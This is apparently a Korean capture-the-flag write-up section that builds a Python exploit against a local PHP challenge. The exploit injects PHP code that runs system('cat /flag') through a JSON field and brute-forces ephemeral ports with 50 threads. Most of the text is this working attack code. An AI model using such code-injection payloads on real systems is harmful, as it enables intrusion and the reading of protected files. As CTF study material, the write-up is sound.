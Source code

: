### 2-3. 공격 페이로드 작성
운영체제마다 다르지만 리눅스에선 임시 포트가 32768에서 60999 사이에 할당되므로 요첨 범위를 설정해줌.

```python
EPHEMERAL_MIN = 32768
EPHEMERAL_MAX = 60999  # PHP 코드가 43개 포트 범위로 요청하므로 넉넉하게 잡음
MAX_TRIES = 10000  # 최대 시도 횟수 제한
```
JSON 페이로드를 보내기 위해 URL를 구성하고 페이로드와 헤더를 설정함.

```python
def send_attack(probe_start):
    url = f"{TARGET_URL}?probe={probe_start}"
    payload = payload_template.format(MAG)
    headers = {"Content-Type": "application/json"}

응답의 HTTP 상태 코드가 200이고 응답 본문에 `"__HIT__"`가 포함되어 있으면 공격 성공으로 간주하여 `flag`값을 출력함

```python
        if response.status_code == 200 and MAG in response.text:
            print(f">>> HIT probe={probe_start}")
            print("\n".join(response.text.splitlines()[:10]))
```
작성된 최종 python 코드는 다음과 같음
```python
import requests
import random
import time
from concurrent.futures import ThreadPoolExecutor

# --- 설정 ---
TARGET_URL = "http://localhost:8080/index.php"
MAG = "__HIT__"  # PHP 코드가 echo하는 히트 마커
# JSON 페이로드: signal="Arrival"일 때 logogram 명령어 실행, 플래그 파일 cat 명령 포함
payload_template = '{"signal":"Arrival","logogram":"echo \\"{}\\n\\"; system(\'cat /flag\');"}'

EPHEMERAL_MIN = 32768
EPHEMERAL_MAX = 60999  # PHP 코드가 43개 포트 범위로 요청하므로 넉넉하게 잡음
MAX_TRIES = 10000  # 최대 시도 횟수 제한

def send_attack(probe_start):
    url = f"{TARGET_URL}?probe={probe_start}"
    payload = payload_template.format(MAG)
    headers = {"Content-Type": "application/json"}
    try:
        response = requests.post(url, data=payload, headers=headers, timeout=3)
        if response.status_code == 200 and MAG in response.text:
            print(f">>> HIT probe={probe_start}")
            print("\n".join(response.text.splitlines()[:10]))
    except requests.RequestException:
        pass  # 예외 무시, 재시도 로직도 가능

if __name__ == "__main__":
    print("Start Exploit Attack")
    tries = 0
    with ThreadPoolExecutor(max_workers=50) as executor:
        while tries < MAX_TRIES:
            probe = random.randint(EPHEMERAL_MIN, EPHEMERAL_MAX - 42)
            executor.submit(send_attack, probe)
            tries += 1
            time.sleep(0.005)  # 서버 과부하 방지

    print("Finished attack loop.")
```

